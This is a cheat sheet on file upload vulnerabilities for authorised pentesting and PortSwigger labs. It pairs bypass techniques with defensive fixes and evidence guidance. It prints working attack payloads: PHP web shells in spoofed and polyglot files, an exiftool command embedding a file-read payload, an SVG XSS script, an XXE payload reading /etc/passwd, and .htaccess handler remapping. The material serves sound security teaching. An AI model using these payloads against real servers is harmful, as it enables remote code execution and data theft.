


# 🗂️ File Upload Vulnerabilities — Cheat Sheet


> Quick reference for authorised testing and PortSwigger Academy labs. Use a harmless marker file, change one property per test, and verify the stored or delivered result before drawing conclusions.

**Icon legend:** 💥 offensive technique · 🔒 defensive control · 🚨 scope / caution reminder · ✅ good evidence

---

## ⚡ Quick Workflow



1. Upload an ordinary allowed file and save the raw request/response.
2. Note the filename, multipart `Content-Type`, returned ID/URL, and retrieval headers.
3. Test one independent property at a time.
4. Wait for asynchronous processing, then retrieve through the normal path.
5. Compare bytes, URL/path, headers, access control, and rendering behaviour.
6. Stop after proving the in-scope impact.

---

## 🧩 Upload Anatomy

```http
POST /profile/avatar HTTP/1.1
Content-Type: multipart/form-data; boundary=----Boundary

------Boundary
Content-Disposition: form-data; name="avatar"; filename="marker.png"
Content-Type: image/png

<file bytes>
------Boundary--
```

| Field | Treat as | Testing question |
| --- | --- | --- |
| `filename` | Untrusted metadata | Does it influence storage, display, or routing? |
| Part `Content-Type` | Client claim | Is it trusted without server-side verification? |
| File bytes | Untrusted input | Is the actual format checked and safely processed? |
| Response ID/URL | Evidence lead | Is it predictable, public, or tied to the right user? |

---

## 🔎 Recon Checklist

- [ ] Upload, replace, delete, preview, and download endpoints
- [ ] Multipart, base64/JSON, resumable, presigned-storage, import, or PUT flows
- [ ] Original filename, generated name, object ID, and returned URL
- [ ] Synchronous vs asynchronous scanning / thumbnailing / conversion
- [ ] Public vs authenticated retrieval and cross-tenant object access
- [ ] Retrieval `Content-Type`, `Content-Disposition`, `nosniff`, cache policy
- [ ] Type, size, count, dimension, page, archive, and rate limits
- [ ] Any previewer, OCR, parser, converter, or archive extractor

---

## 💥 Bypass Techniques (Offensive Reference)

Concrete techniques for authorised pentests, CTFs, and PortSwigger labs. Try one variation at a time and confirm through retrieval — see the [Safe Confirmation Ladder](#-safe-confirmation-ladder) before claiming impact.

### Extension bypasses

| Technique | Example | Why it works |
| --- | --- | --- |
| Case manipulation | `shell.PHp`, `shell.pHP` | Case-sensitive denylist misses variants. |
| Double extension | `shell.php.jpg`, `shell.jpg.php` | Server checks last/first extension only, or handler matches any extension in the chain (e.g. Apache `AddHandler`). |
| Alternate script extensions | **PHP:** `.phtml`, `.pht`, `.phar`, `.php3`–`.php8`, `.phps`, `.phtm`<br/>**ASP/ASP.NET:** `.asa`, `.cer`, `.asax`, `.ashx`, `.asmx`, `.cshtml`<br/>**JSP:** `.jspx`, `.jspf`, `.jsw`<br/>**SSI:** `.shtml` | Denylist covers `.php` or `.asp` but the web server or handler is configured to execute these alternates. |
| Trailing characters / ADS | `shell.php.`, `shell.php `, `shell.php::$DATA` (NTFS ADS), `shell.php%20`, `shell.asp;.jpg` (IIS 6), `shell.jsp;.jpg` (Tomcat) | OS or web server strips trailing dots/spaces before writing to disk, strips NTFS `::$DATA` stream attribute, or truncates at semicolon before execution. |
| Null byte injection | `shell.php%00.jpg` or raw `0x00` in the filename | Legacy PHP (<5.3.4) and C-based file APIs truncate the filename string at the null byte upon file creation (tested in PortSwigger Lab 5). |
| Missing/blank extension | `shell` with `Content-Type: application/x-php` | Some routing decides purely off Content-Type when no extension is present. |
| Unicode/homoglyph or RTL override | Full-width dot `．`, right-to-left override character before `php` | Bypasses naive string-based denylists; normalise before validating. |

### Content-Type spoofing

The multipart part header is a client claim — change it independently of the file bytes and extension:

```http
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: image/jpeg

<?php system($_GET['cmd']); ?>
```

If this is accepted and the extension is later executed, the server is trusting the declared type instead of the bytes (tested in PortSwigger Lab 2).

### Magic-byte / polyglot files

Prepend or inject a valid file signature so server checks pass while the file remains executable or renderable in another context:

```text
# Simple magic-byte prefix (passes naive string/prefix checks):
GIF89a;<?php system($_GET['c']); ?>
```

> [!WARNING]
> **False-Positive Pitfall (Magic Bytes vs Deep Parsing):**
> Prepending `GIF89a;` passes naive byte-prefix checks (e.g., `head -c 6` or simple MIME detection), but **fails** format-aware parsers such as PHP's `getimagesize()` or `exif_imagetype()` because GIF logical screen descriptors and dimension headers are missing.
> For true polyglots that survive image verification (tested in PortSwigger Lab 6), inject the PHP payload into an image's metadata (EXIF/comment) using ExifTool:
> ```bash
> exiftool -Comment="<?php echo file_get_contents('/home/carlos/secret'); ?>" marker.jpg -o polyglot.php
> ```

- **Valid GIF header + PHP payload:** Passes prefix checks; still parsed as PHP if the extension/handler allows it.
- **JPEG with payload in EXIF/comment:** Survives structural image validation; executed when given a PHP extension or chained with LFI.
- **Polyglot GIF/JS or PDF/JS:** Delivers stored XSS when the app validates magic bytes before serving inline without safe headers.

### Filename and path tricks

- **Path traversal in filename:** `..%2fshell.php` or `..%2f..%2fshell.php` — critical when the default upload folder (e.g. `/files/avatars/`) has execution disabled (`php_admin_flag engine off` or no execute permissions), but the parent directory (e.g. `/files/`) allows execution (PortSwigger Lab 3).
- **Windows reserved device names:** (`CON`, `PRN`, `AUX`, `NUL`, `COM1-9`, `LPT1-9`) can cause filesystem exceptions or denial-of-service on Windows-backed storage.
- **Filename collision:** Re-uploading an identical filename to test overwrite behaviour and object ownership (feeds the file-overwrite check below).

### Server/stack-specific execution tricks

| Stack | Trick | Notes |
| --- | --- | --- |
| Apache + mod_php | Upload `.htaccess` containing `AddType application/x-httpd-php .l33t` into the target directory, then upload `shell.l33t`. | Classic PortSwigger Lab 4 technique. Overrides directory configuration to execute arbitrary extensions. Only works if `.htaccess` overrides are permitted (`AllowOverride All` or `FileInfo`). |
| Apache handler confusion | `shell.php.jpg` executes if the handler matches on *any* extension in a multi-dot filename, depending on `AddHandler`/`mod_mime` config. | Happens when configured via `AddHandler application/x-httpd-php .php` instead of `<FilesMatch \.php$> SetHandler ...`. Test with a harmless marker. |
| IIS / ASP.NET | Upload a crafted `web.config` into the upload directory to remap an otherwise-safe extension to an executable handler; or use `shell.asp::$DATA` on NTFS. | Needs write access to a directory IIS actually reads config from. |
| Nginx + php-fpm | 1. **Path-info execution (`cgi.fix_pathinfo=1`):** Upload image `avatar.jpg` with PHP code, request `GET /uploads/avatar.jpg/x.php`. Nginx matches `\.php$`, passes to PHP-FPM, which strips `/x.php` and executes `avatar.jpg`.<br/>2. **Unanchored regex:** `location ~ \.php` (missing `$`) matches `shell.php.jpg` and routes to FastCGI. | Config-dependent; verify whether request actually triggers FastCGI rather than returning static bytes. |
| Tomcat | If credentials to `/manager` are reachable, deploy a WAR via `/manager/text/deploy`; otherwise drop a JSP (`.jsp`, `.jspx`) inside a webapps-served upload directory. | Only within explicit engagement scope — manager access is a separate, high-impact finding on its own. |
| Node.js / Python / Go | None of these execute `.php` files by default. If you upload a `.php` file to Express, Django, FastAPI, or Go, it will be served as plain text or octet-stream, **not executed**. | Check if uploaded templates (`.ejs`, `.pug`, `.j2`) are dynamically rendered, or if files can overwrite server source files (`app.js`, `main.py`). |

### SVG and XML-based risks

- `image/svg+xml` containing `<script>` renders as stored XSS if served inline without `nosniff`/attachment disposition:
  ```xml
  <svg xmlns="http://www.w3.org/2000/svg"><script>alert(origin)</script></svg>
  ```
- SVG/XML parsed for thumbnailing can carry an XXE payload:
  ```xml
  <?xml version="1.0" standalone="yes"?>
  <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
  <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
  </svg>
  ```
  — confirm only with an out-of-band (OOB) DNS ping or harmless local read in an authorised environment.
- Office formats (DOCX/XLSX/PPTX) are zip containers; malformed relationship/content-type XML inside them has historically carried XXE and SSRF payloads through document-processing pipelines.

### Image-processing pipeline exploits (know these exist, verify before assuming)

| Component | Known historical issue | Takeaway |
| --- | --- | --- |
| ImageMagick | "ImageTragick"  — crafted image triggers command execution via a vulnerable coder. | The conversion/thumbnail step is a *second* attack surface, separate from the initial upload check. |
| ExifTool |  — crafted DjVu metadata triggers RCE during metadata extraction. | Metadata stripping/reading tools need patching and sandboxing too. |
| Ghostscript (via ImageMagick delegate) | Historical PS/EPS coder RCE issues. | Disable unneeded delegates; keep converters patched and least-privilege. |

Confirm library/version in scope before assuming any of these apply — cite the CVE, don't just claim "ImageMagick is vulnerable."

### Archive-based attacks

- **Zip Slip** — entries with `../` in their path can write outside the intended extraction directory on naive extractors.
- **Decompression bomb** — small compressed archive expands to an enormous size; test only within agreed limits, stop before degradation.
- **Symlink entries** in tar-style archives can escape the extraction root.
- If extraction lands inside a web-servable path, a planted file becomes directly reachable — chain this back into the "storing beneath an executable web path" failure pattern below.

### Race conditions

- Request the returned object URL/ID in a tight loop immediately after upload, before async AV/validation finishes and (ideally) quarantines or deletes it.
- Timing windows are often single-digit milliseconds — Burp's Turbo Intruder (single-packet attack) is more reliable here than a plain sequential loop.
- This maps directly to PortSwigger's "upload validation race condition" lab pattern.

### Chaining with other bug classes

| Chain | Idea |
| --- | --- |
| Upload → LFI | Direct execution blocked, but an LFI elsewhere lets you include the uploaded file. |
| Upload → IDOR | Predictable object IDs let you read or overwrite another user's file. |
| Upload → SSRF | A "fetch file from URL" import feature reaches internal-only services. |
| Upload → Insecure deserialization | App deserializes an uploaded object (Java serialized object, Python pickle) instead of just storing bytes. |

### Recon/fuzzing tooling

```text
ffuf / wfuzz     → fuzz allowed extensions and MIME types against the upload endpoint
Burp Repeater     → hand-craft one variation per request (see High-Value Checks)
Burp Turbo Intruder → single-packet race-condition testing
Upload Scanner (Burp extension) → automates many of the checks above
SecLists "Upload-Insecure-Files" → reference payload list; read and understand each entry before sending it
```

---

## ✅ High-Value Checks

| Check | Safe method | Good evidence | Not enough to claim a bug |
| --- | --- | --- | --- |
| Extension validation | Rename a harmless marker while retaining its bytes. | Server accepts an out-of-policy extension and stores it. | A browser file picker prevents selection. |
| MIME validation | Change only the multipart part MIME type. | Server accepts a type mismatch that reaches a dangerous context. | The request contains a different MIME header. |
| Content validation | Use a file whose bytes do not match its claimed type. | Final object is accepted despite policy and post-processing. | A filename has an allowed suffix. |
| Filename handling | Test benign unusual names and duplicate names. | Object path/key or another object changes unexpectedly. | The UI reflects the submitted name. |
| Delivery behaviour | Fetch the stored object normally and inspect headers. | Active content renders on the trusted application origin. | A response merely returns `200 OK`. |
| Authorization | Use two authorised test accounts/tenants. | One account accesses or replaces the other's object. | An ID looks sequential. |
| Limits | Stay well within agreed bounds. | Limit absent or inconsistent at an observable safe threshold. | A single large but permitted file uploads. |

---

## 📦 Files to Keep for Each Test

```text
baseline-request.txt       raw normal request
baseline-response.txt      normal response / returned object ID
marker-file.ext            harmless, uniquely identified test file
variant-request.txt        one controlled variation
retrieval-headers.txt      headers from preview/download
notes.md                   timestamp, account, result, and clean control
```

Use a different marker string per test. It prevents cache confusion and makes accidental cross-request results easier to spot.

---

## 📋 Retrieval Header Guide

| Header | Why it matters | Preferable pattern |
| --- | --- | --- |
| `Content-Type` | Tells the browser the intended media type. | Accurate type set by the server. |
| `X-Content-Type-Options` | Reduces MIME sniffing in supporting browsers. | `nosniff` |
| `Content-Disposition` | Controls inline display vs download. | `attachment` for untrusted downloadable content. |
| `Content-Security-Policy` | Limits active browser behaviour. | Strict policy; especially useful on a separate asset origin. |
| Cache controls | Can preserve stale or private content. | Match the asset's sensitivity and access model. |

```http
Content-Type: application/pdf
Content-Disposition: attachment; filename="report.pdf"
X-Content-Type-Options: nosniff
```

Header hardening is defence in depth. It does not make executable storage, missing authorization, or unsafe parsing safe.

---

## ❌ Common Failure Patterns

| Pattern | Why it fails | Defensive fix |
| --- | --- | --- |
| Browser-only file restriction | The client can be bypassed. | Enforce policy server-side. |
| Extension denylist | Easy to omit dangerous or stack-specific formats. | Small business allowlist. |
| Trusting multipart MIME | Client controls it. | Detect and parse content server-side. |
| Magic-byte-only check | Does not prove the whole file is safe. | Format-aware parsing; transform where appropriate. |
| Using client filename as path/key | Enables collisions and path ambiguities. | Generated opaque IDs. |
| Storing beneath an executable web path | Turns a file into server-interpreted content. | Outside web root / separate object store; disable execution. |
| Public URL before scan completes | Creates a time-of-check/time-of-use window. | Private quarantine then atomic promotion. |
| Inline serving on app origin | Can enable stored client-side attacks. | Separate origin; restrictive headers; attachment delivery. |
| Unbounded archive/processing work | Enables resource exhaustion. | Limits on compressed and expanded content, work, and time. |

---

## 🪜 Safe Confirmation Ladder



> 🚨 Do not skip steps. For example, a changed request header proves only that you changed a request header; it does not prove that the application stored, served, or interpreted the file that way.

### Impact-specific evidence

| Claim | Evidence to retain |
| --- | --- |
| Dangerous type accepted | Raw request, response, final retrieval, and byte/hash comparison. |
| Stored XSS / active content | Rendered result in the authorised environment, origin, and response headers. |
| File overwrite | Before/after retrieval of two harmless markers and affected object ownership. |
| Path traversal | Verified final location within approved test space; no system-file targeting. |
| Race condition | Repeated, timestamped proof that an object is reachable before validation finishes. |
| RCE | A minimal, harmless, authorised proof of server interpretation—not acceptance alone. |
| DoS | Agreed test limit plus reproducible resource/availability evidence; stop before degradation. |

---

## 🚧 False-Positive Guardrails

- [ ] I compared a normal baseline and a one-variable test.
- [ ] The file remained available after scanners/converters finished.
- [ ] I downloaded the final stored object rather than trusting the upload response.
- [ ] The result is not a cached preview, stale CDN object, or reflected filename.
- [ ] I tested authorization on every relevant operation, not just upload.
- [ ] I identified the delivery origin and headers before claiming XSS risk.
- [ ] I demonstrated the claimed impact or reported it as a limited validation gap.

### Common False Positives vs Reality

| False Assumption / Observation | Actual Reality | How to Verify Before Claiming a Bug |
| --- | --- | --- |
| **"HTTP 200/201 on `shell.php` means RCE."** | The server accepted the bytes but saved them with a safe extension (e.g. `.bin`, `.txt`), stored them in an S3/cloud bucket as `binary/octet-stream`, or directory execution is disabled (`php_admin_flag engine off`). | Send a benign marker (`<?php echo 'MARKER_'.md5(1); ?>`) and navigate to the retrieval URL. If it renders the raw PHP code or triggers a download, it is **not** RCE. |
| **"Response echoes `../../shell.php`, so path traversal works."** | The server sanitized the path on disk (e.g. via `basename()`) and merely reflected the user's raw input string in the success message or JSON payload. | Verify whether the file actually landed in the parent directory. Never claim path traversal on reflected response text alone. |
| **"Uploading `.php` to Node.js/Python/Go will execute."** | Modern application runtimes (Express, Django, FastAPI, Go) do not have PHP interpreters attached. The file will be served statically or as plain text. | Target stack-relevant execution paths (e.g., template injection if `.ejs`/`.j2` is processed, or overwriting server source files like `app.js`). |
| **"`GIF89a;` prefix bypassed image validation, so it's a polyglot."** | Naive magic bytes pass simple signature checks, but fail format-aware parsers (`getimagesize()`, `exif_imagetype()`, or GD/Imagick re-encoding) and will not render as a valid image. | Check if the server's image processor accepts the file. For deep validation, generate structural polyglots via ExifTool. |
| **"Uploaded SVG/HTML file proves Stored XSS."** | If the file is served with `Content-Disposition: attachment`, `X-Content-Type-Options: nosniff`, or from an isolated sandbox domain (e.g. `*.user-content.com`), JavaScript cannot access the session or main origin DOM. | Open the retrieval URL in a browser. Verify the response `Origin`, active cookies, and whether scripts execute in the context of the main app origin. |
| **"File was immediately accessible, so scanner is bypassed."** | The file was accessible during a temporary pre-scan buffer, but the background worker deletes or quarantines it seconds later. | Check persistence after several seconds/minutes. A transient file that is reliably deleted before any user can trigger it is not a permanent bypass. |

---

## 🔧 Developer Fix Checklist

- [ ] Permit only formats required by the product.
- [ ] Authenticate users and authorise every object operation.
- [ ] Limit request size, file size, count, dimensions/pages, and processing time.
- [ ] Decode and normalise metadata before validation.
- [ ] Check extension, detected type, and format structure server-side.
- [ ] Generate a random server-side storage name; retain original name only as metadata.
- [ ] Keep quarantine and final storage outside executable web paths.
- [ ] Scan/process in isolated, patched, least-privilege workers.
- [ ] Reject or strictly validate archives before extraction.
- [ ] Promote only approved objects atomically after validation.
- [ ] Deliver with correct type, `nosniff`, safe disposition, and object-level access control.
- [ ] Log decisions, object IDs/hashes, actor, and scanner outcome for investigation.

---

## 💻 Burp Suite Notes

```text
Proxy / HTTP history  → find real upload and retrieval requests
Repeater              → establish baseline; alter one multipart field at a time
Comparer              → compare responses, downloaded bytes, and headers
Logger                → correlate upload, processing, and retrieval timestamps
Intruder              → use only with explicit approval and conservative rate limits
```

When editing a multipart request manually, preserve the boundary syntax and `Content-Length` handling. A malformed multipart body can look like a server-side validation rejection.

---

## 🔗 References

- [README.md](README.md) — full concepts, workflow, and remediation architecture
- [PortSwigger — File upload vulnerabilities](https://portswigger.net/web-security/file-upload)
- [OWASP — File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
- [OWASP WSTG — Test Upload of Malicious Files](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/10-Business_Logic_Testing/09-Test_Upload_of_Malicious_Files)
- [HackTricks — File Upload](https://book.hacktricks.xyz/pentesting-web/file-upload) — deep, continuously updated bypass reference
- [PayloadsAllTheThings — Upload Insecure Files](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files) — payload list and per-stack notes
- [CWE-434](https://cwe.mitre.org/data/definitions/434)